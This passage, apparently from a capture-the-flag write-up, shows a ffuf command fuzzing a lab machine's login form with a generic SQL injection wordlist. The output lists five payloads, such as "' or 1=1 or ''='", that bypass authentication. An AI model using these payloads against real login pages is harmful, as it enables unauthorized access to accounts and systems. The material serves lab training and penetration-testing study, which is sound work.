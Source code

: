 I'll run `ffuf` with the following options:

-   `-X POST` - POST request
-   `-u http://10.10.11.101/administrative` - url to send to
-   `-d 'uname=FUZZ&password=0xdf'` - data to send, with `FUZZ` being
    what gets replaced with lines from the wordlist
-   \` -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt\` - the
    wordlist
-   `-H "Content-Type: application/x-www-form-urlencoded"` - set the
    header like in the actual request

On running this, there's 300+ lines of output. I can see that the size
of each varies, but the default case seems to have 206 words. I'll add
one more option, `--fw 206` to hide those lines. What remains are
payloads that do something different:



    oxdf@parrot$ ffuf -X POST -u http://10.10.11.101/administrative -d 'uname=FUZZ&password=0xdf' -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -x http://127.0.0.1:8080 -H "Content-Type: application/x-www-form-urlencoded" --fw 206

            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       

           v1.3.1 Kali Exclusive <3
    ________________________________________________

     :: Method           : POST
     :: URL              : http://10.10.11.101/administrative
     :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Data             : uname=FUZZ&password=0xdf
     :: Follow redirects : false
     :: Calibration      : false
     :: Proxy            : http://127.0.0.1:8080
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405
     :: Filter           : Response words: 206
    ________________________________________________

    admin' or '             [Status: 200, Size: 1296, Words: 280, Lines: 33]
    hi' or 'x'='x';         [Status: 200, Size: 1296, Words: 280, Lines: 33]
    x' or 1=1 or 'x'='y     [Status: 200, Size: 1296, Words: 280, Lines: 33]
    ' or 1=1 or ''='        [Status: 200, Size: 1296, Words: 280, Lines: 33]
    ' or 0=0 #              [Status: 200, Size: 1296, Words: 280, Lines: 33]
    :: Progress: [267/267] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::



There's five examples of other payloads that would allow for login.
